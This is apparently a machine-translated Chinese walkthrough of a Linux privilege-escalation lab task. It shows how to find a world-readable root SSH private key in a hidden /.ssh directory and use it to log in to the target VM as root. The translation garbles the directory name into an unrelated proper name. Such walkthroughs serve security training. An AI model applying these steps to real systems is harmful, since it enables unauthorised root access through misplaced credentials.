 > ***答案:/etc/openvpn/auth.txt***

# 任务 18:密码和密钥-SSH 密钥

有时，用户会备份重要文件，但却无法使用正确的权限来保护它们。

在系统根目录中查找隐藏的文件和目录:

`ls -la /`

请注意，似乎有一个名为**的隐藏目录。宋承宪**。查看目录的内容:

`ls -l /.ssh`

注意，有一个全球可读的文件叫做 **root_key** 。对该文件的进一步检查应该表明它是一个私有 SSH 密钥。该文件的名称表明它是为 root 用户准备的。

将密钥复制到您的 Kali 框中(只查看 **root_key** 文件的内容并复制/粘贴密钥会更容易),并赋予它正确的权限，否则您的 SSH 客户端将拒绝使用它:

`chmod 600 root_key`

使用密钥作为根帐户登录 Debian 虚拟机(相应地更改 IP):

`ssh -i root_key root@10.10.10.10`

**记得在继续之前退出根 shell！**

![](img/defd24ce80652b0da3bc0c9d4a82253a.png)
